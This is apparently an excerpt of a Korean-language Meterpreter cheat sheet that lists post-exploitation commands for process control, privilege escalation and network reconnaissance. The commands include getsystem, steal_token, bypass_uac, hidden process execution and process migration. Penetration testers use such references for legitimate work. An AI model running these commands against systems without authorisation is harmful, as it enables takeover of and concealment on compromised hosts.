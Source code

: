 ### 프로세스 조회 및 조작

```bash
# 실행 중인 프로세스 목록
meterpreter > ps

# 특정 프로세스 검색
meterpreter > ps | grep explorer.exe

# 프로세스 종료
meterpreter > kill 1234

# 새 프로세스 실행
meterpreter > execute -f cmd.exe -i -H

# 숨겨진 프로세스로 실행
meterpreter > execute -f calc.exe -H

# 프로세스 마이그레이션
meterpreter > migrate 1234
```

### 권한 및 보안

```bash
# 시스템 권한 획득 시도
meterpreter > getsystem

# 현재 권한 확인
meterpreter > getprivs

# 토큰 가져오기
meterpreter > steal_token 1234

# UAC 우회
meterpreter > bypass_uac
```

## 네트워크 및 연결

### 네트워크 정보 수집

```bash
# 네트워크 인터페이스 정보
meterpreter > ifconfig
meterpreter > ipconfig

# 라우팅 테이블
meterpreter > route

# ARP 테이블
meterpreter > arp

# 네트워크 연결 상태
meterpreter > netstat

# DNS 설정 확인
meterpreter > resolve www.example.com
```
